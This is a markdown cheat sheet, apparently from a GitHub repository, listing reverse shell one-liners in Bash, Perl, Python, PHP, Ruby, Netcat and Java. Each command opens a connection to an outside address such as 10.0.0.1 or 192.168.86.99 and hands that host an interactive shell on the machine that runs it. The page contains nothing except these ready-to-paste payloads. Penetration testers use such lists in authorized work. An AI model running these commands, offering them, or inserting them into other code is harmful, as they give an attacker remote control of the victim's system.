 # Reverse Shell one-liners
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'"); ?>
```

### Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
With `-e` argument
```nc -e /bin/sh 10.0.0.1 1234```

Without `-e` argument
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])  
p.waitFor()
```
